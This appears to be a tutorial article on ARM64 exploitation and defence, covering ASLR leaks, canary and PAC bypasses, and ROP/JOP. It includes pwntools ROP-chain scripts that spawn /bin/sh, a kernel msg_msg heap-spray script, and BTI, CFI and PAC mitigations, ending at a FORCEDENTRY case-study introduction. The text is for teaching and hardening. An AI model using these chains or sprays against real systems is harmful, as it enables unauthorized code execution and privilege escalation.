





Security research on ARM64 blends intimate knowledge of the ISA with an understanding of OS memory layout, compiler mitigations, and hardware defences. This part covers the attack path from memory disclosure through ROP/JOP chain execution, examines kernel exploitation patterns specific to AArch64, and closes with the hardware control-flow integrity mechanisms — BTI and PAC — that are shifting the exploit landscape.
ASLR on ARM64
KASLR & User-Space ASLR
AArch64 uses 48-bit virtual addresses (some implementations 52-bit with LPA). The OS randomises load addresses at multiple levels:

ARM64 ASLR entropy sources (Linux)
| Target | Sysctl / flag | Bits of entropy |
|---|---|---|
| User stack | mmap_rnd_bits (default 28) | 28 bits |
| mmap regions | mmap_rnd_bits | 28 bits |
| PIE executable | mmap_rnd_bits | 28 bits |
| Kernel text (KASLR) | nokaslr to disable | ~21 bits (2 MB aligned) |
| Kernel modules | independent slot | ~18 bits |
# Check ASLR configuration on Linux ARM64
cat /proc/sys/kernel/randomize_va_space # 2 = full ASLR
# Check kernel KASLR state (requires root)
cat /proc/kallsyms | grep " T _text" # text base changes on each boot
# With kptr_restrict=2, all shown as 0 — information leak barrier
# Disable ASLR for a single process (development/research only)
setarch aarch64 -R ./target_binary # -R = ADDR_NO_RANDOMIZE
# Build a PIE binary (default with modern GCC/Clang)
aarch64-linux-gnu-gcc -pie -fPIE -o pie_target main.c
# Build non-PIE (known load address 0x400000) — for controlled experiments
aarch64-linux-gnu-gcc -no-pie -fno-PIE -o nopie_target main.cInformation Leaks — Breaking ASLR
ASLR is defeated when an attacker can read a pointer that reveals a randomised address. Common leak primitives on ARM64:
Common pointer leak classes
- Format string:
printf(user_input)—%pleaks stack/heap pointers directly. - Stack over-read:
read()orrecv()returning more bytes than written — uninitialized stack bytes contain saved return addresses or pointers tolibc. - Use-After-Free heap read: reading freed memory whose allocator slot was refilled with a struct containing kernel/libc pointers.
- Kernel
/procinfo:/proc/self/mapsshows exact mappings whenkptr_restrict=0. - Side-channel: cache-timing (Flush+Reload, Prime+Probe) or branch predictor oracles to infer randomised addresses when pointer values are inaccessible directly.
// Typical stack over-read leak pattern (educational excerpts)
// Vulnerable function: copies fixed bytes regardless of input length
// Stack layout after prologue (AArch64 ABI):
// [x29 (frame ptr)] [x30 (saved LR)] [local_buf 64 bytes] ...
// If we can read 80 bytes starting at local_buf, we get saved x30 (ret addr in libc)
// Computing libc base from a leak:
// leaked_addr = read_bytes + 0x50 (stack over-read, little-endian u64)
// libc_base = leaked_addr - known_offset_of_leaked_symbol_in_libc
// system_addr = libc_base + offset_of_system_in_libc
// Find symbol offsets with:
// aarch64-linux-gnu-readelf -s /lib/aarch64-linux-gnu/libc.so.6 | grep " system"
// aarch64-linux-gnu-nm -D /lib/aarch64-linux-gnu/libc.so.6 | grep __libc_start_mainStack Canaries on AArch64
GCC/Clang insert a stack canary (a random value at TLS offset -8 on AArch64) between local variables and the saved frame pointer. Any stack buffer overflow that overwrites the saved LR must first corrupt the canary, which is checked on function return.

; Compiler-generated canary prologue/epilogue (AArch64, GCC -fstack-protector-strong)
; Prologue — after regular save of x29/x30:
mrs x0, tpidr_el0 ; TLS base register
ldr x0, [x0, #-8] ; load canary from TLS (glibc stores it here)
str x0, [sp, #24] ; place canary on stack just above saved frame
mov x0, #0 ; zero x0 so canary isn't left in register
; ... function body ...
; Epilogue — before restoring x29/x30:
ldr x1, [sp, #24] ; reload canary from stack
mrs x0, tpidr_el0
ldr x0, [x0, #-8] ; load expected canary from TLS
eors x0, x0, x1 ; XOR: result should be zero
b.ne __stack_chk_fail ; canary mismatch → abort()Bypass Techniques
Canary bypass strategies
- Leak then overwrite: Use an information leak to read the canary value from the stack or TLS, then include it verbatim in the overflow payload. Requires a separate read primitive before writing.
- Partial overwrite (ARM64 specific): On AArch64 the saved LR occupies 8 bytes. If overflow is byte-granular, the low bytes of the return address can be patched while the canary remains intact — limited by alignment and null-byte constraints in the canary.
- Canary brute-force: Only practical against forked servers (
fork()preserves canary across child copies). The 8-byte canary can be brute-forced byte-by-byte — 256 attempts per byte × 7 non-null bytes = 1,792 max attempts. - Function pointer overwrite: If a function pointer lives before the canary on the stack (or on the heap), overwrite it instead to achieve control flow without touching the canary.
Pointer Authentication Code Bypass
PAC (Pointer Authentication Codes, ARMv8.3+) signs pointers with a cryptographic MAC stored in the top unused bits. Apple's ARM64e ABI mandates PAC for all return addresses; the Linux kernel enables it via arm64.pac_enabled_keys. Bypassing PAC is an active research area.

APIAKeyLo_EL1/APIAKeyHi_EL1 — not directly readable from EL0.
; PAC sign/authenticate instructions
PACIASP ; sign SP-context return address: LR = PAC(LR, SP, IA-key)
AUTIASP ; authenticate: if PAC invalid → LR[63:56] = error bits → fault on RET
RET ; branches to LR (FEAT_PAUTH: also authenticates)
; PAC stripping (XPACLRI — used in debuggers, not executable normally from EL0)
XPACLRI ; strip PAC from LR (available only in EL1/EL2/EL3)
; PACIB vs PACIA — two separate IA keys allow kernel/user to use different keys
PACIBSP ; sign with IB key (kernel uses IA, some firmware uses IB)
AUTIBSPPAC Oracle Attack Pattern
Oracle-based PAC bypass (conceptual)
A PAC oracle arises when an attacker can call AUTIA (authenticate) on a chosen pointer and observe whether it fault-traps or succeeds — distinguishing valid from invalid PAC values. With enough oracle queries the valid PAC for a given pointer+context can be deduced. Attack steps:
- Obtain a code-execution primitive (e.g., a heap overflow into a vtable pointer that has not yet been signed).
- Use a JIT engine or
mmap+mprotect(PROT_EXEC)to place code containingAUTIA x0, x1; RET. - Invoke the gadget with the target pointer and candidate PAC values; fault vs success reveals if the PAC was correct.
- With 16-bit effective PAC space (upper byte, minus 0x00), ~65,536 queries suffice — feasible in a JIT-heavy context like Safari's JSCore where thousands of oracle calls per second are possible.
Mitigations: Apple A15+ uses full 24-bit PAC fields; iOS crash reporting limits crash-loop rate; jscBuiltin functions restricted to internal contexts.
Return-Oriented Programming on AArch64
ROP on AArch64 differs from x86-64 in one crucial way: the return address is stored in the link register (x30/LR), not on the stack, unless a subroutine call pushes it. However, most real functions save LR to the stack at their prologue — making AArch64 ROP very similar to x86-64 once we understand the gadget landscape.

Gadget Anatomy on AArch64
# Find ROP gadgets using Ropper (ARM64/AArch64 mode)
pip install ropper
ropper --file /lib/aarch64-linux-gnu/libc.so.6 --arch ARM64 --search "ret"
# Find specific useful gadgets
ropper --file /lib/aarch64-linux-gnu/libc.so.6 --arch ARM64 \
--search "ldp x0, x1, [sp,?]; ret"
ropper --file /lib/aarch64-linux-gnu/libc.so.6 --arch ARM64 \
--search "mov x0, x1; ret"
# ROPgadget (alternative tool)
ROPgadget --binary /lib/aarch64-linux-gnu/libc.so.6 --arch arm64 \
--rop --nosys | grep "ret$"
# pwntools disassembly verification
python3 -c "
from pwn import *
context.arch = 'aarch64'
# Verify a gadget at a known offset
gadget_bytes = b'\xe0\x03\x01\xaa\xc0\x03\x5f\xd6' # mov x0,x1; ret
print(disasm(gadget_bytes))
"Essential AArch64 ROP gadget categories
| Purpose | Gadget pattern | Notes |
|---|---|---|
| Load x0 (arg1) | ldr x0, [sp, #N]; ret | Set function first argument |
| Load x1 (arg2) | ldr x1, [sp, #N]; ret | Set function second argument |
| Load x2 (arg3) | ldr x2, [sp, #N]; ret | Third argument for syscalls |
| Load multiple | ldp x0, x1, [sp]; ret | Efficient two-arg setup |
| Stack pivot | mov sp, x0; ret | Move fake stack — critical |
| Write primitive | str x0, [x1]; ret | Arbitrary write via two gadgets |
| Syscall | svc #0; ret | x8=NR, x0-x5=args |
Building an AArch64 ROP Chain
#!/usr/bin/env python3
# AArch64 ROP chain construction with pwntools (educational example)
# Target: call system("/bin/sh") via ROP after stack buffer overflow
# Assumes: ASLR defeated (libc base known), stack canary defeated (leaked)
from pwn import *
context.arch = 'aarch64'
context.log_level = 'info'
# Offsets from libc base (find with: nm -D libc.so.6 | grep -E "system| /bin/sh")
LIBC_BASE = 0x7f8a000000 # leaked at runtime
system_off = 0x0004f8c0 # offset of system() in libc
binsh_off = 0x001725a0 # offset of "/bin/sh" string in libc
# Gadget offsets from libc base (found with ropper)
# gadget1: ldr x0, [sp, #8]; ldp x29, x30, [sp], #0x10; ret
pop_x0_off = 0x0006ab3c
# gadget2: blr x0 (call via register — avoids direct call to PAC-signed ptr)
blr_x0_off = 0x00055adc
system_addr = LIBC_BASE + system_off
binsh_addr = LIBC_BASE + binsh_off
pop_x0 = LIBC_BASE + pop_x0_off
blr_x0 = LIBC_BASE + blr_x0_off
# Stack overflow: overwrite saved x29, x30
# AArch64 stack frame:
# [local_buffer 64 bytes]
# [saved x29 (8 bytes)]
# [saved x30 = return address (8 bytes)]
padding = b'A' * 64
saved_x29 = p64(0x4141414141414141) # fake frame pointer (benign)
rop_chain = (
padding
+ saved_x29
+ p64(pop_x0) # overwrite LR → first gadget
+ p64(0xdeadbeef) # padding for sp advance in gadget
+ p64(binsh_addr) # loaded into x0 by gadget
+ p64(blr_x0) # call x0 (which is system) — x0="/bin/sh"
# system(x0) executes "/bin/sh"
)
print(hexdump(rop_chain[:96]))ret2libc — Call Convention on AArch64
AArch64 passes arguments in x0–x7. A ret2libc attack must populate these registers via gadgets before the pivot to system() or execve().
#!/usr/bin/env python3
# execve("/bin/sh", NULL, NULL) syscall chain on AArch64
# x0 = ptr to "/bin/sh", x1 = NULL (argv), x2 = NULL (envp), x8 = 221 (__NR_execve)
from pwn import *
context.arch = 'aarch64'
LIBC_BASE = 0x7fab200000
binsh_addr = LIBC_BASE + 0x001725a0
# Gadgets (all from libc — found with ropper/ROPgadget)
# g1: ldr x8, [sp, #0x18]; ldp x0, x1, [sp]; ldr x2, [sp, #0x10]; ret
# (hypothetical multi-load gadget for demonstration)
g1 = LIBC_BASE + 0x000abcde
svc_ret = LIBC_BASE + 0x000f1234 # svc #0; ret
# Stack frame layout for gadget g1:
# sp+0x00: x0 = binsh_addr
# sp+0x08: x1 = 0 (NULL argv)
# sp+0x10: x2 = 0 (NULL envp)
# sp+0x18: x8 = 221 (__NR_execve on arm64)
frame = flat({
0x00: binsh_addr,
0x08: 0,
0x10: 0,
0x18: 221,
})
payload = b'A'*64 + b'B'*8 + p64(g1) + frame + p64(svc_ret)
print(f"Payload length: {len(payload)} bytes")Jump-Oriented Programming (JOP)
JOP replaces the RET-based control flow of ROP with indirect branches (BR X0, BLR X0). It is used when RET instructions are filtered or when BTI makes RET-terminated gadgets non-exploitable via certain jump sources.
; JOP dispatcher gadget pattern (found in device driver or JIT code)
; A "dispatch" gadget loads the next gadget address and jumps to it
; Control remains with the attacker-controlled sequence of indirect branches.
; ---- Dispatcher gadget ----
; ldr x0, [x20], #8 ; load next gadget pointer from x20 (fake stack), advance
; br x0 ; jump to it — NOT a RET
; ---- Function gadget example ----
; mov x0, x1 ; set argument
; br x8 ; transfer to dispatcher (x8 = dispatcher address, fixed)
; Attacker controls x20 (fake dispatch table in writable memory):
; [addr_of_gadget_A]
; [addr_of_gadget_B]
; [addr_of_gadget_C — system()]
; ...
; The dispatcher advances through the table, calling each gadget with br x0,
; each gadget ends with br x8 to return to dispatcher.
; Key difference from ROP: no RET instruction used → avoids RET-based CFI.BTI instruction as their first instruction. A BR X0 targeting a non-BTI-marked address faults. JOP gadgets in BTI-protected code must begin with BTI J (jump) or BTI JC (jump+call). This dramatically reduces the useful JOP gadget surface in BTI-hardened binaries.
Kernel Exploitation Patterns on ARM64
Use-After-Free via the Slab Allocator
Kernel UAF exploitation steps (ARM64 Linux)
- Trigger allocation: Call a kernel API (e.g.,
open(),socket(),perf_event_open()) that allocates a kernel-controlled struct viakmalloc(). - Free without clearing reference: Exploit a refcount bug or double-free to return the slab object to the allocator while a dangling pointer remains in a stale data structure.
- Reallocate with attacker-controlled data: Fill the freed slot via a different allocator path — often
msg_msg(POSIX message queues, size-flexible) orpipe_bufferwhich accept partially attacker-controlled data. - Corrupt function pointer or cred struct: If the original struct contained a function pointer (e.g.,
file_operations,sock_ops), overwrite it to redirect execution. Alternatively, overwrite atask_struct→credpointer to escalate privileges. - Trigger UAF dispatch: Invoke the original operation (e.g.,
read(),ioctl()) which dereferences the now-corrupted slab object.
# Heap spray via msg_msg (Linux, arbitrary kernel object size control)
# The msg_msg header is 48 bytes; data immediately follows.
# Allocate many POSIX message queue entries to fill freed slots.
python3 - <<'EOF'
import ctypes, os, struct
MSGMAX = 0x2000 # max message size
queue = ctypes.CDLL(None).msgget(ctypes.c_int(-1), 0o1666)
if queue < 0:
raise OSError("msgget failed")
# Fill slab with 200 controlled msg_msg objects (each padded to target size)
msg_payload = b'\x41' * 200 # 200 bytes of 'A' — will occupy freed slab slot
for _ in range(200):
# msgsnd: type=1, data=msg_payload
buf = struct.pack("q", 1) + msg_payload
ctypes.CDLL(None).msgsnd(queue, buf, len(msg_payload), 0)
print(f"[+] Sprayed 200 msg_msg objects onto queue {queue}")
EOFHeap Spray Strategies
Commonly used kernel spray objects (Linux arm64)
| Object | Syscall | Size range | Contents |
|---|---|---|---|
msg_msg | msgsnd() | 48 – 8192 B | Attacker-controlled message body |
pipe_buffer | pipe() | 64 B (fixed) | Has pipe_buf_operations function ptr |
timerfd_ctx | timerfd_create() | 216 B | Holds a wait_queue_head |
sk_buff | recvfrom() | Variable | Network data — widely used for large sprays |
bpf_map | bpf(BPF_MAP_CREATE) | Variable | eBPF map — size precisely controllable |
Hardware Defences — BTI and CFI
Branch Target Identification (BTI)
BTI is a hardware mechanism introduced in ARMv8.5 that restricts which addresses indirect branches (BR, BLR, BLRAAZ, etc.) may jump to. Valid targets must begin with a BTI landing pad instruction. Attempting to branch to a non-BTI target while BTI is enabled in the page tables causes a BTITRAP fault.

; BTI landing pad variants
BTI C ; valid target for BLR (call) instructions only
BTI J ; valid target for BR (jump) instructions only
BTI JC ; valid target for both BR and BLR
; Compiler-generated function entry with BTI (clang -mbranch-protection=bti)
.global my_function
.type my_function, %function
my_function:
BTI C ; landing pad — accepts BLR my_function
stp x29, x30, [sp, #-16]!
; ... function body ...
ldp x29, x30, [sp], #16
ret ; RET is not an indirect branch; always valid
; PACIASP + BTI combo (most common in production — -mbranch-protection=standard)
my_function2:
PACIASP ; doubles as BTI C landing pad (FEAT_PACBTI)
stp x29, x30, [sp, #-16]!
; ...
ldp x29, x30, [sp], #16
AUTIASP
RET# Enable BTI in a Linux ELF binary
clang --target=aarch64-linux-gnu \
-mbranch-protection=standard \ # enables PAC + BTI
-march=armv8.5-a \
-O2 -o btimain main.c
# Verify BTI note in ELF (GNU property)
readelf -n btimain | grep -A2 "NT_GNU_PROPERTY_TYPE_0"
# Should show: AArch64 feature: BTI, PAC
# Check if kernel enforces BTI for a process
# (requires CONFIG_ARM64_BTI_KERNEL, kernel 5.10+)
cat /proc/$(pidof btimain)/smaps | grep -A 2 "07400000"
# flags field will show "BTI"LLVM CFI on AArch64
Software CFI (LLVM -fsanitize=cfi) instruments every indirect call with a type-check at compile time. Hardware + software CFI layers are complementary: BTI stops branch-to-arbitrary-code; LLVM CFI additionally restricts which typed functions a given call site may invoke.
# Build with LLVM CFI (requires LTO for cross-TU visibility)
clang --target=aarch64-linux-gnu \
-flto=thin \
-fvisibility=hidden \ # required for cross-DSO CFI
-fsanitize=cfi \ # all CFI sub-checks enabled
-fsanitize-cfi-cross-dso \ # enforce across shared library boundaries
-O2 -o cfi_target main.c liba.c
# Or enable specific sub-checks only
clang --target=aarch64-linux-gnu \
-flto=thin -fvisibility=hidden \
-fsanitize=cfi-icall \ # indirect call type check only
-fsanitize=cfi-nvcall \ # C++ non-virtual member call check
-O2 -o cfi_partial main.cpp
# Test: calling a function through a mistyped pointer triggers abort()
# CFI check compiles to a masked address comparison inline at the call site:
# and x0, x0, #~15 // check alignment constraint of type
# ldr x1, =__cfi_check_table
# blr x1 // call CFI runtime checkDefence-in-depth stack against ROP/JOP on modern ARM64
| Layer | Mechanism | Defeats |
|---|---|---|
| Stack canary | -fstack-protector-all | Linear stack overflow |
| ASLR (28-bit) | Kernel mmap_rnd_bits | Hardcoded address shellcode |
| PAC (IA key) | ARMv8.3 FEAT_PAUTH | Return address overwrite |
| BTI | ARMv8.5 FEAT_BTI | Arbitrary indirect branch targets |
| LLVM CFI | -fsanitize=cfi | Wrong-type indirect calls |
| MTE (ARMv8.5) | Memory tagging | Heap/stack UAF and overflows |
| Shadow Call Stack | Clang -fsanitize=shadow-call-stack | LR overwrite even if PAC unavailable |
Case Study: ARM64 Exploitation in the Wild
FORCEDENTRY (CVE-2021-30860) — Zero-Click iPhone Exploit
In September 2021, Citizen Lab and Google Project Zero disclosed FORCEDENTRY, a zero-click exploit targeting Apple's iMessage on ARM64 iPhones. The exploit chain was attributed to the NSO Group's Pegasus spyware and demonstrated every technique covered in this article operating against the strongest ARM64 defences available.
